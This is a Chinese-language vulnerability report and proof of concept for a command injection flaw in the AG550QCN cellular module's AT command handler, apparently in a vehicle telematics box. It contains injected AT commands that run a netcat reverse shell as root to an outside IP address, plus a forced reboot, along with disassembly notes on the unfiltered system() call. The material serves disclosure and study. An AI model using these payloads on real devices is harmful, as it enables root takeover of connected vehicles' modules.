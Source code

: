 漏洞描述：
        AG550QCN模组ql_atfwd对AT指令'AT+QABFOTA=“package”... '处理时，参数过滤不严格，存在命令注入漏洞，可以直接root权限执行任意命令，并反弹shell。


受影响模组基本信息：

模组：AG550QCN
模组系统版本：Linux sa515m 4.14.206-perf #1 PREEMPT Sat Jun 11 02:53:21 CST 2022 armv7l GNU/Linux


反弹shell POC演示

外网机器监听9123端口
                nc -lvvp 9123


Tbox MPU执行下列命令
                1、添加路由器规则，让modem连接外网    （模组没有默认路由，所以无法直接访问外网，需要手动添加）
                        echo 'AT+QABFOTA="package",1&&ip route add default dev rmnet_data1' >/dev/ttyUSB1
                2、反弹shell
                        echo 'AT+QABFOTA="package",1&&nc 123.56.128.98 9123 -e /bin/sh' >/dev/ttyUSB1




漏洞详情：

  1、at fwd程序 支持QABFOTA命令
  2、进入处理函数5AF4
  3、off_267C4是子功能列表，["reboot",func_reboot,"state",func_state…]
  3、分析package处理函数 sub_11B20+1
  4、system(s)函数，其中s直接引用用户的输入，没有做过滤

POC：

#MPU执行下列命令，另4g module重启
Echo 'AT+QABFOTA="package",1&&reboot' >/dev/ttyUSB1
#4G模组执行
Ql_cmd at 'AT+QABFOTA="package",1&&reboot'
5、进入模组使用strace分析，可以看到命令被添加到"sh","-c","fotainfo…" 中



